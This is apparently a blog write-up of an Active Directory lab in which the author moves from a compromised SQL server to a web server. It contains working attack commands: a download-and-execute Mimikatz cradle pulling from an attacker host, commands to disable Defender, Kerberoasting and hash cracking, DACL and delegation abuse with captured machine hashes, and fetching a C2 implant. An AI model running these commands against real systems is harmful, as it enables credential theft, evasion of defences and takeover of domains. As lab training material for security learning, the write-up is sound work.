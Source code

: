 ```yaml
---
title: "AD Pwnage: Ninja Hackers Academy Part 2"
author:
  name: crypt0ace
  link: https://twitter.com/crypt0acee
date: 2024-01-21
description: "Hacking into NHA - AD based Lab Red Team way."
tags: [Red Team]
---
```


## Introduction
In the previous one, we went from a scope of subnet to initial access using an SQL injection and also escalated our privileges to SYSTEM to get more access. This time, we are going to see what we can do to jump from this mahcine to the next one.

## Making Sure Our Wins aren't Short Lived
So from the SYSTEM shell access, we can go ahead and get a lay of the land. We know our IP and the machine is `SQL$`. To make sure we dont lose access we can dump hashes. ANother thing would be to add persistence in the machine as good measure. THis would be done in an actual red team engagement. In this case, I'm skipping that out.
The best thing would be to use something custom or modified version of mimikatz to fly undetected. BUT! we are just going to use a `safedogz.ps1` which contains an AMSI bypass and calls `dogz.ps1` which is a little modified version of [nishang](https://github.com/samratashok/nishang)'s `Invoke-Mimikatz.ps1` (you can probably guess what the modification is) and it has the call `Invoke-Mimikatz -DumpCreds` at the end. This works, but it also gives out an alert by Defender that something fishy is happening. For some reason it does give the result back and also doesnt kill out session on Havoc so eh it works.
<br>

We are going to use the same command again but in Havoc.
```bash
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://192.168.58.50/safedogz.ps1') -UseBasicParsing | iex"
```

For those who are wondering we get this nasty behavioural alert on defender.
![Defender Alert](/assets/img/NHA/defender_mimi_alert.png)

But at the same time we also get these nice sweet sweet hashes back.

![SQL Hashes](/assets/img/NHA/hashed_1.png)

Keeping these saved, we can move further. In case your defender is faster and blocking it, you cold use a second C2 at this point. One option is [Sliver](https://github.com/BishopFox/sliver). It has a built in function to dump hashes using `nanodump` which worked when I tried it. A second C2 is also a good idea to keep as a backup in case you lose you initial shells. You can use the other one as a backup to bring up instead of running the whole process again. Especially if the initial one was obtained using some phishing tactic.
Another option, which is not so red teamy, is to turn defender off using this powershell command.
```bash
Set-MpPreference -DisableRealTimeMonitoring $true
```

Or a little bit more OPSEC safe way is to remove all definitions using this.
```bash
& 'C:\Program Files\Windows Defender\MpCmdRun.exe' -RemoveDefinitions -All
```

Just to keep in mind its a huge red flag in mature environments. In the continuation of this lab, I'm going ot be removing the definitions. This is just to make our work easier. Basic bypasses can still be used as previously done, to get past defender. However, in some cases things might get a little itchy. So, just to ease it and not having to make custom modifications to tools, I'll do this. I'll mention when I'm actually doing it so you wont get confused how my commands worked but you're commands are geting killed by the big baddie defender.

## Getting a Lay of the Land in the Domain
So to continue gettting an understanding of the schema of this organization, we will be using [BloodHound](https://github.com/BloodHoundAD/BloodHound). This will help us visualize what we are working with.
We can use `SharpHound.exe` to get the data to feed BloodHound. [SharpCollection](https://github.com/Flangvik/SharpCollection/) will be used again (Thanks [flangvik](https://twitter.com/Flangvik)!!).
```bash
dotnet inline-execute /opt/SharpCollection/NetFramework_4.7_Any/SharpHound.exe -c all
```

We will get the data. Then we can download it simply by using `download` command in Havoc.
![SharpHound Dumped](/assets/img/NHA/sharphound_dump.png)

Next we can locate it in this directory for me.
```bash
/opt/Havoc/data/loot/2024.01.13._00:43:07/agents/15b67a26/Download/C:/tmp/20240113031943_BloodHound.zip
```

Now we can put it in BloodHound to see what we have. First we can see the computers in the domain.
![Computers](/assets/img/NHA/computers.png)

We can also see the users. One thing we can do is get all the usernames and try and ASREP Roasting attack. We are going to unzip the bloodhound data and find a JSON file of users. Then we can use JQ and this command to just get the SAMAccountName of the users. I learned this trick from [Ippsec](https://www.youtube.com/watch?v=o3W4H0UfDmQ&t=265)'s video.
```bash
cat 20240113031943_users.json | jq -r '.data[].Properties.samaccountname'
```

This gives us all of the usernames.
![Account Names](/assets/img/NHA/js_accountnames.png)

We can save these in a users text file. Then we can use this commmand to go through all of these users and use the Impacket script GETNPUsers.py to find if any users have pre-auth disabled.
```bash
for user in $( cat academy_users.txt  ); do GetNPUsers.py -no-pass -dc-ip 192.168.58.20 ACADEMY/${user} -format hashcat | grep -v Impacket; done
```

We get these results.
![ASREP Roasting](/assets/img/NHA/asrep.png)

Unfortunately, no easy win for us. This didnt work. We can also use this command to find user's descriptions in case we have some passwords in descriptions (yes. it does happen.).
```bash
cat 20240113031943_users.json | jq '.data[].Properties.description'
```

![User Descriptions](/assets/img/NHA/descriptions.png)

Also while we are on the topic of kerberos, with ASREP Roasting, we can see which users might be kerberoastable. This can be checked from BloodHound.
![Kerberoastable Users](/assets/img/NHA/kerber.png)

We have user Frank, sql_svc which is a service account most probably, and the default krbtgt account. We can get the hashes using this command in our C2.
```bash
dotnet inline-execute /opt/SharpCollection/NetFramework_4.7_Any/Rubeus.exe kerberoast /nowrap
``` 

After getting the hases we can try and crack them using hashcat.
```bash
hashcat -m 13100 -a 0 kerberoast.hashes ~/Desktop/rockyou.txt --force
```

Unfortunately again, it doesnt take us anywhere. We can take a look at the prebuilt queries in BloodHound to learn more about the internal environment. One more thing that we should do is to mark `SQL$` machine as owned so we can keep a track of our actions.
We can look around in the `SQL$` machine and get a password from a config file at `C:\setup`

![SQL Config](/assets/img/NHA/sqlconfig.png)
```bash
SAPWD="sa_P@ssw0rd!N1nJ4hackaDemy"
```

This is is the SQL Admin password or `sa` user's password. We can look around in the database using this command to see if there are any other credentials in there.
```bash
impacket-mssqlclient sa:'sa_P@ssw0rd!N1nJ4hackaDemy'@192.168.58.22
```

I couldn't find anything of interest there. Back to BloodHound. We can use a really cool feature of it which is mapping to and from to see if there is a way we can pivot from one machine to another.
We can see something cool if we map the way from our owned `SQL$` machine to `WEB$` machine. It shows that `SQL$` has `GenericAll` privileges over the COMPUTERS container, of which the `WEB$` machine is a part of.

## Packing Up, Ready to Jump to New Horizons (Pivoting)

This is a bit tricky. See, if we had these privileges over directly the other machine, it would have been easy. After stumbling around it a lot and wondering why it wasn't working I was pointed to the reason. After all, if `WEB$` is a part of the container we have `GenericAll` privileges over, shouldn't we have enough privileges to work with? The answer is no.
You see, we don't exactly have the privileges. Not over the object that is a part of it. The author made a [tweet](https://twitter.com/M4yFly/status/1603035773628215296?t=eozscxvg8DwaC5-UeV0GBw&s=19) about it a while ago as well. To be able to actually do it, we would need to enable inheritance. This would pass any privilege over the container to the objects inside the container as well.
For this we will be using the `dacledit.py` script to edit the Discretionary Access Control List (DACL). This is not a part of the official Impacket repo (as far as I know). We can find it [here](https://github.com/ShutdownRepo/impacket/tree/dacledit) at the branch dacledit. We can use it to add inheritance to the container. You can read more about it from [here](https://www.thehacker.recipes/a-d/movement/dacl/grant-rights).
We can use this command that will do it.
```bash
dacledit.py -action "write" -principal SQL$ -target-dn "CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN" "academy.ninja.lan"/"SQL$" -hashes 7bd73a3ebe97a16f0691a0f51292dd47:7bd73a3ebe97a16f0691a0f51292dd47 -inheritance
```

This enabled inheritance using our `SQL$` machine hashes to the Distinguished Name (dn) of COMPUTERS. Once that is done, we can see that we now have `GenericAll` privileges over the `WEB$` machine.
![Changed DACL of WEB$](/assets/img/NHA/web_dacl.png)

And now we can go down the Resource Based Constrained Delegation (RCBD) route. To explain this in simpler terms, we are going to create a machine account that we control and have the password of. We are going to add `msDS-AllowedToActOnBehalfOfOtherIdentity` to the `WEB$` machine from our newly created machine account. Then we can abuse that and get a service ticket to the `WEB$` machine as Administrator.
First we need to create a machine account. We are allowed to do so because in AD by default any user is allowed to create 10 machine accounts (machine account quota). We can use `addcomputer.py` script from Impacket to do so.
```bash
addcomputer.py -computer-name 'crypt0ace$' -computer-pass 'Password123!' -dc-host academy.ninja.lan "academy.ninja.lan"/"SQL$" -hashes 7bd73a3ebe97a16f0691a0f51292dd47:7bd73a3ebe97a16f0691a0f51292dd47
```

Now that it is created we can make it delegate to the `WEB$` machine
```bash
rbcd.py -delegate-from 'crypt0ace$' -delegate-to 'web$' -dc-ip 'academy.ninja.lan' -action 'write' "academy.ninja.lan"/"SQL$" -hashes 7bd73a3ebe97a16f0691a0f51292dd47:7bd73a3ebe97a16f0691a0f51292dd47
``` 

We can confirm that it worked by reading the delegate list using this command
```bash
rbcd.py -delegate-to 'web$' -dc-ip 'academy.ninja.lan' -action 'read' "academy.ninja.lan"/"SQL$" -hashes 7bd73a3ebe97a16f0691a0f51292dd47:7bd73a3ebe97a16f0691a0f51292dd47
```

![Listing Delegation](/assets/img/NHA/rbcd.png)

Perfect! It worked. Now we can request a service ticket using `getST.py` for the service CIFS so we can use things like `psexec.py` and `smbexec.py` and we are going to impersonate the Administrator user.
```bash
getST.py -spn 'cifs/web.academy.ninja.lan' -impersonate Administrator -dc-ip 'academy.ninja.lan' "academy.ninja.lan"/"crypt0ace$" -hashes 2b576acbe6bcfda7294d6bd18041b8fe:2b576acbe6bcfda7294d6bd18041b8fe
```

Now we can export the ticket and use `smbexec.py` which is much better to move around Defender and get a shell on the `WEB$` machine.
![Shell on WEB Machine](/assets/img/NHA/web_shell.png)

Next we can move this as well to our C2 using these commands.
```bash
powershell.exe -c "iwr http://192.168.58.50/demon.exe -o C:\tmp\demon.exe"
C:\tmp\demon.exe
```

And as expected, we get it.
![Callback on our C2](/assets/img/NHA/web_pwned.png)

With this much done, I'm gonna head out. As always, If theres any thing you need to discuss I'm on [Twitter](https://twitter.com/crypt0acee) and [LinkedIn](https://www.linkedin.com/in/ahmed-sher-93234a206/). 